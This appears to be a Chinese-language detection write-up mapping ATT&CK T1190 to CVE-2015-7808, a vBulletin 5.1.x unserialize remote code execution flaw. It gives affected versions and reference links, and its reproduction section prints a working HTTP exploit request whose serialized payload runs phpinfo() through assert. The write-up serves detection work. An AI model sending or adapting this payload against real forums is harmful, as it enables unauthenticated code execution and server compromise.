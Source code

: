 # T1190-vBulletin5.X-RCE检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。



## CVE-2015-7808漏洞

vBulletin是用PHP编写的可定制的论坛程序套件。

vBulletin 5.1.4-5.1.9版本，某些内部API处理Ajax请求时，未验证其来源，这可使攻击者无需身份验证调用继承自vB_Api及/core/vb/api/下任意类的任意公共方法，其中decodeArguments()方法内的unserialize()函数存在安全漏洞，可使攻击者在‘$args’变量中注入精心构造的任意对象，远程执行php代码，获取服务器权限。

### 影响版本

VBulletin 5.1.4 - 5.1.9

### 测试案例

请参考：

vBulletin5.X前台RCE分析（CVE-2015-7808）

<https://xz.aliyun.com/t/6497>

vBulletin 5 全版本远程代码执行漏洞分析

<https://www.anquanke.com/post/id/82870>

### 检测日志

访问日志

### 测试复现


```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D HTTP/1.1
Host: 192.168.0.106
Cookie: XDEBUG_SESSION=PHPSTORM
Connection: close
```

解码后：

```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O:12:"vB_dB_Result":2:{s:5:"*db";O:17:"vB_Database_MySQL":1:{s:9:"functions";a:1:{s:11:"free_result";s:6:"assert";}}s:12:"*recordset";s:9:"phpinfo()";} HTTP/1.1
```
